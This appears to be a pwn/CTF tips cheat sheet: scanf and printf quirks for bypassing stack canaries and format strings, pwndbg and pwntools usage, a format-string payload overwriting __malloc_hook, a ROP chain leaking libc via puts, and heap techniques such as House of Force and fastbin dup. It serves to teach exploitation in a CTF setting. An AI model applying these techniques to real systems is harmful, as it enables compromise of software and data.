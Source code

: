 # printf/scanf tricks
```c
scanf("%lf", &n); // passing non number(. or -) yields to keeping the value stored in n
		  // [!] useful for bypassing stack canaries

for(i=0; i<n; i++) {
	scanf("%lf", &arr[i]); // %lf -> stack canary can be bypassed
	scanf("%d", &arr[i]);  // %d -> passing . or - terminates every scanf after
}

printf("hello\x00there"); // prints "hello"
			  // printf format string (first arg) terminates on nullbyte
			  // [!] something to keep in mind while exploiting format strings

printf("%100000c"); // triggers malloc
```

# GDB/pwndbg/pwntools tricks
### Pwndbg print whole stack
```
stack
telescope ($rbp-$rsp)/8+1
```
### Print value
```
p user
```
### Print type/struct info
```
ptype user
```
### Print code around crash (or rip)
```
context code
```
### Running with custom libc without custom linker
If running from pwntools script setting LD_PRELOAD usually works
```python3
gs = '''
c
b *__libc_start_main+391
set $rax = main
<set other breakpoints here>
c
'''

io = gdb.debug(elf.path, gdbscript=gs, env={"LD_PRELOAD" : libc.path})
```
If first method fails you could set rpath to path that holds custom libc with patchelf
```
patchelf --set-rpath `pwd` <binary>
```
If the binary crashes in `__libc_start_main` before `call rax` you can break before the crash and manually set `rax` to the address of main
```
b *__libc_start_main+391
set $rax = main
```
### Tired of writing format string exploits?
Pwntools offers less painful alternative :)
https://docs.pwntools.com/en/stable/fmtstr.html
```python3
fmtstr_payload(8, {__malloc_hook : one_gadget}, write_size="byte")
```
### Find candidates for fake fastbin chunks
```
find_fake_fast addr
```
Where addr is the address of value to overlap.

### Buffering is wired while developing exploit?
```
context.log_level = 'debug'
```
I don't know how or why but it fixed pwntools halting on `recvuntil(b'keyword)`

# Leaking libc
This ropchain prints newline and then leaks address of puts from libc. The libc offset is then easily calculated by substracting puts offset from leaked address.
```python3
buf += p64(0x00000000004010a3) 		# pop rdi; ret; 
buf += p64(0x400020) 			# empty line to print -> points to start of .text section
buf += p64(elf.symbols["puts"]) 	# print newline
buf += p64(0x00000000004010a3) 		# pop rdi; ret; 
buf += p64(elf.got["puts"]) 		# rdi = *puts@got
buf += p64(elf.symbols["puts"])
buf += p64(0x000000000040063e) 		# ret; 
buf += p64(elf.symbols["fill"]) 	# call fill() (vulnerable function) for second stage
```
### Not sure which libc version is on remote system?
Leak any libc function from .got table and check with https://libc.blukat.me/

Still not sure?
Leak more libc functions.
### Libc is shipped without symbols?
You can download version with symbols from https://launchpad.net/ubuntu/xenial/<libc_version> (ex. https://launchpad.net/ubuntu/xenial/amd64/libc6-dbg/2.23-0ubuntu5). Debug file to download is in format `libc6-dbg_<libc_version>.deb`. Then you can use tool eu-unstrip or extract the deb and replace challenge libc with libc with symbols.
### No shellcode, no ropchain? No problem
Use one_gadget https://github.com/david942j/one_gadget
to overwrite whatever address you can control execution with

# Glibc techniques summary
## House of Force
Overwrite `top_chunk` size and wrap around address space to control where the next chunk is allocated.
## Fastbin dup
Perform double free -> control the fd pointer in the last fastbin -> malloc returns address in fd pointer.

# Other arch
## ARM
Getting started: https://azeria-labs.com/arm-lab-vm/

Currently `ROPgadget` has stronger gadget detection than `ropper` when it comes to ARM architecture

# Adding symbols to stripped binary
```
objcopy ./example --add-symbol main=.text:0xe2,function,global ./example-with-symbols
```
Where `0xe2` is offset of `main` from `.text` section.
The `--add-symbol` option may be specified multiple times.

https://naliferopoulos.github.io/ThinkingInBinary/symbolicating-stripped-elf-files-manually

# More tips
https://ropemporium.com/guide.html

https://github.com/Naetw/CTF-pwn-tips

